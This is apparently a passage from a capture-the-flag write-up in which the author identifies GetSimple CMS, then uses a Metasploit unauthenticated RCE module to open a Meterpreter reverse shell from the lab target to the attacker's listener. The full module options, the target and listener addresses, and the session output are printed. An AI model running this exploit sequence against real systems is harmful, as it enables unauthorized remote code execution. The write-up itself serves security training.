 The first link on the page redirects us to some `GetSimple CMS Documentation`.

This must be the CMS used to host the page. Let's search for an exploit using Metasploit.

```
msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE
```

There is an RCE vulnerability from 2019. Let's try that.

```
msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][..
                                         .]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasplo
                                         it-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before


msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set rhost 10.129.215.234
rhost => 10.129.215.234
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set lhost 10.10.14.218
lhost => 10.10.14.218
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.218:4444 
[*] Sending stage (39927 bytes) to 10.129.215.234
[*] Meterpreter session 1 opened (10.10.14.218:4444 -> 10.129.215.234:54888) at 2023-01-23 07:50:10 -0500
```
